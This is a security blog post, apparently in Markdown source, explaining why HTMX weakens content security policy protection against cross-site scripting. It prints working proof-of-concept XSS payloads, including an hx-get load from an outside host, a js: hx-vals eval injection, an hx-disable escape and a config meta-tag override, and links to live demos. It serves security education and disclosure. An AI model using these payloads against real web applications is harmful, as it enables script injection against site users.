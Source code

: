 ```yaml
---
layout: post
title: "HTMX does not play well with content security policy"
thumbnail: blue-gate-480.jpg
date: 2024-06-26
---
```


HTMX is a JavaScript framework that makes it possible to replace DOM elements with dynamic data from AJAX requests, specified by HTML attributes. Because dynamic behavior is added to the page using normal HTML tags with custom attributes, it is difficult to provide additional security against cross-site scripting (XSS) attacks.

<!-- Photo source: https://pixabay.com/photos/blue-gate-english-countryside-1725791/ -->

## Introduction

Normally, a content security policy (CSP) can be used to limit which JavaScript is executed. It is difficult to configure a CSP where HTMX keeps working and is also protected against cross-site scripting.

## Loading malicious fragments

An obvious HTMX injection method is to perform a request to a malicious host. HTMX retrieves a HTML fragment, possibly containing JavaScript, and places it on the page. By triggering a request to domain other than the web application's, this can be used to load malicious script.

For example, the following tag loads and executes JavaScript that shows an alert:

```
<div hx-get="https://test.sjoerdlangkemper.nl/cors.php" hx-trigger="load"></div>
```

<a href="https://demo.sjoerdlangkemper.nl/htmx/connect.php?name=hacker">Try it</a>

## Unsafe eval

HTMX dynamically creates and executes code. There are several HTMX [features](https://htmx.org/docs/#configuration-options) that do this:

- [trigger filters](https://htmx.org/docs/#trigger-filters)
- [*hx-on* attributes](https://htmx.org/docs/#hx-on)
- *hx-vals* or *hx-headers* with the `js:` or `javascript:` prefix

For these to work, you have to allow evaluating dynamic code, using the CSP option `unsafe-eval`. However, allowing `unsafe-eval` immediately makes it possible to inject JavaScript using HTMX functionality.

For example, injecting the following tag shows an alert popup:

```
<div hx-vals='js:"a":alert(`XSS`)' hx-get="/" hx-trigger='load'>foo</div>
```

<a href="https://demo.sjoerdlangkemper.nl/htmx/eval.php?name=hacker">Try it</a>

## Disabling HTMX with *hx-disable*

It's possible to disable HTMX functionality in part of the page with the [*hx-disable* attribute](https://htmx.org/docs/#hx-disable). The docs claim this can bring additional security:

```
<div hx-disable>
    <%= raw(user_content) %>
</div>
```

> And htmx will not process any htmx-related attributes or features found in that content. This attribute cannot be disabled by injecting further content: if an hx-disable attribute is found anywhere in the parent hierarchy of an element, it will not be processed by htmx.

Of course, this is trivial to bypass: just close the div tag with `</div>` and insert your payload outside of the element with the *hx-disable* attribute.

<a href="https://demo.sjoerdlangkemper.nl/htmx/disable.php?name=hacker">Try it</a>

## Nonces for inline scripts

Using a nonce in the CSP is the most secure way to prevent script injection. The application generates a random nonce and adds that to all scripts that are part of the application. Scripts injected by the attacker don't have the correct nonce and are not executed.

HTMX has functionality that automatically adds the correct nonce to inline scripts it retrieves. This is convenient, but totally breaks the security model of CSP with nonces. By adding the correct nonce to any script it finds, HTMX totally compromises the security offered by nonces.

Automatically adding nonces is done through the [parameter](https://htmx.org/docs/#config) `htmx.config.inlineScriptNonce`. 

<a href="https://demo.sjoerdlangkemper.nl/htmx/nonce.php?name=hacker">Try it</a>

## Configuration meta tag

HTMX has several configuration options, which can be configured using a `<meta>` tag. In an XSS attack, this makes it possible to modify HTMX's configuration by injecting the correct `<meta>` tag.

For example, above we mentioned that the `hx-disable` attribute disabled HTMX processing. However, it is possible to rename that attribute in the configuration. By setting it from `hx-disable` to something else, the `hx-disable` functionality can be disabled. This can be achieved by injecting the following tag:

```
<meta name="htmx-config" content='{"disableSelector":"outerHTML"}'>
```

This even works within a tag with *hx-disable*, but only if there is no similar meta tag above it.